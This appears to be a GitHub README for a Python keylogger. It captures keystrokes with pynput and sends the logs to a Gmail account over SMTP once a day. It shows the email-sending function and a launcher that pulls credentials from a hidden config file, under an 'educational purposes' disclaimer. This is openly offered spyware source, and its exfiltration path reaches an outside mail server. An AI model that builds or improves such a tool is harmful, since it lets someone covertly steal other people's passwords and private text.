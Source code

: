 # Keylogger

Keylogger with send message gmail
The program reads the buttons entered from the keyboard key
Sends in the form of a log to the mail

```
The program is written for educational purposes.
```

# Import
```python
import pynput.keyboard
import threading
import smtplib
```

# Explanation
Settings may differ from preference and SMTP. Server
Debuglevel -> False, Turns on when debugging a program
```python
def send_mail(email, password, message):
    """Send email smtp.google.com"""
    server = smtplib.SMTP_SSL('smtp.gmail.com', 465)
    server.set_debuglevel(False)
    server.login(email, password)
    server.auth_plain()
    server.sendmail(email, email, message)
    server.quit()
```
# Zilogger
Gets the input time interval for sending email, and variables from the config.py(is hidden) file for authorization on the SMTP server
```python
import keylogger
import config

# 86400 second -> 24 hours
my_keylogger = keylogger.Keylogger(86400, config.EMAIL, config.PASSWORD)
my_keylogger.start()
```
